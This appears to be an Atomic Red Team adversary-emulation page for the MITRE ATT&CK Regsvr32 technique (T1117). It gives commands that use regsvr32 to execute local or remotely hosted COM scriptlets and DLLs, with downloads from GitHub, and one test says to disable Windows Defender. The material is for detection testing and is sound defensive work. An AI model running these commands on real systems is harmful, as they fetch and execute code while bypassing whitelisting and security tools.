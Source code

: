 # T1117 - Regsvr32

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1117)

<blockquote>Regsvr32.exe is a command-line program used to register and unregister object linking and embedding controls, including dynamic link libraries (DLLs), on Windows systems. Regsvr32.exe can be used to execute arbitrary binaries. (Citation: Microsoft Regsvr32)

Adversaries may take advantage of this functionality to proxy execution of code to avoid triggering security tools that
may not monitor execution of, and modules loaded by, the regsvr32.exe process because of whitelists or false positives
from Windows using regsvr32.exe for normal operations. Regsvr32.exe is also a Microsoft signed binary.

Regsvr32.exe can also be used to specifically bypass process whitelisting using functionality to load COM scriptlets to
execute DLLs under user permissions. Since regsvr32.exe is network and proxy aware, the scripts can be loaded by passing
a uniform resource locator (URL) to file on an external Web server as an argument during invocation. This method makes
no changes to the Registry as the COM object is not actually registered, only executed. (Citation: LOLBAS Regsvr32) This
variation of the technique is often referred to as a "Squiblydoo" attack and has been used in campaigns targeting
governments. (Citation: Carbon Black Squiblydoo Apr 2016) (Citation: FireEye Regsvr32 Targeting Mongolian Gov)

Regsvr32.exe can also be leveraged to register a COM Object used to establish Persistence
via [Component Object Model Hijacking](https://attack.mitre.org/techniques/T1122). (Citation: Carbon Black Squiblydoo
Apr 2016)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Regsvr32 local COM scriptlet execution](#atomic-test-1---regsvr32-local-com-scriptlet-execution)

- [Atomic Test #2 - Regsvr32 remote COM scriptlet execution](#atomic-test-2---regsvr32-remote-com-scriptlet-execution)

- [Atomic Test #3 - Regsvr32 local DLL execution](#atomic-test-3---regsvr32-local-dll-execution)

<br/>

## Atomic Test #1 - Regsvr32 local COM scriptlet execution

Regsvr32.exe is a command-line program used to register and unregister OLE controls. Upon execution, calc.exe will be
launched.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| filename | Name of the local file, include path. | Path | PathToAtomicsFolder&#92;T1117&#92;src&#92;RegSvr32.sct|

#### Attack Commands: Run with `command_prompt`!

```cmd
regsvr32.exe /s /u /i:#{filename} scrobj.dll
```

#### Dependencies:  Run with `powershell`!

##### Description: Regsvr32.exe must exist on disk at specified location (#{filename})

##### Check Prereq Commands:

```powershell
if (Test-Path #{filename}) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path #{filename}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1117/src/RegSvr32.sct" -OutFile "#{filename}"
```

<br/>
<br/>

## Atomic Test #2 - Regsvr32 remote COM scriptlet execution

Regsvr32.exe is a command-line program used to register and unregister OLE controls. This test may be blocked by windows
defender; disable
windows defender real-time protection to fix it. Upon execution, calc.exe will be launched.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| url | URL to hosted sct file | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/src/RegSvr32.sct|

#### Attack Commands: Run with `command_prompt`!

```cmd
regsvr32.exe /s /u /i:#{url} scrobj.dll
```

<br/>
<br/>

## Atomic Test #3 - Regsvr32 local DLL execution

Regsvr32.exe is a command-line program used to register and unregister OLE controls. Upon execution, calc.exe will be
launched.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| dll_name | Name of DLL to Execute, DLL Should export DllRegisterServer | Path | PathToAtomicsFolder&#92;T1117&#92;bin&#92;AllTheThingsx86.dll|

#### Attack Commands: Run with `command_prompt`!

```cmd
IF "%PROCESSOR_ARCHITECTURE%"=="AMD64" (C:\Windows\syswow64\regsvr32.exe /s #{dll_name}) ELSE ( regsvr32.exe /s #{dll_name} )
```

#### Dependencies:  Run with `powershell`!

##### Description: AllTheThingsx86.dll must exist on disk at specified location (#{dll_name})

##### Check Prereq Commands:

```powershell
if (Test-Path #{dll_name}) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path #{dll_name}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1117/bin/AllTheThingsx86.dll" -OutFile "#{dll_name}"
```

<br/>
